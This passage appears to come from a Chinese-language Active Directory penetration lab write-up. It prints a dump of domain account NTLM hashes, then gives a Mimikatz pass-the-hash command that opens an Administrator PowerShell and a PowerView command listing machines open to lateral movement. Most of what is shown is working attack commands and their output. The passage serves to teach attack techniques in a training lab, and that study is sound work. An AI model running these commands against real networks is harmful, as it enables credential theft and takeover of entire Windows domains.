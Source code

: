 RID  : 00000455 (1109)
User : ciadmin
LM   :
NTLM : e08253add90dccf1a208523d02998c3d

RID  : 00000458 (1112)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 00000459 (1113)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f

RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 00000461 (1121)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

RID  : 00000462 (1122)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000046b (1131)
User : studentadmin
LM   :
NTLM : d1254f303421d3cdbdc4c73a5bce0201

RID  : 00000470 (1136)
User : sql1admin
LM   :
NTLM : e999ae4bd06932620a1e78d2112138c6

RID  : 000004bb (1211)
User : testda
LM   :
NTLM : a16452f790729fa34e8f3a08f234a82c
<略>
```

这里会打印出域内所有用户和计算机的NTML信息，原则上我们现在可以访问到这个域里的所有计算机。


## 证明

打开一个域管理员Administrator的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```

查看允许横向的机器
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Find-LocalAdminAccess
dcorp-std360.dollarcorp.moneycorp.local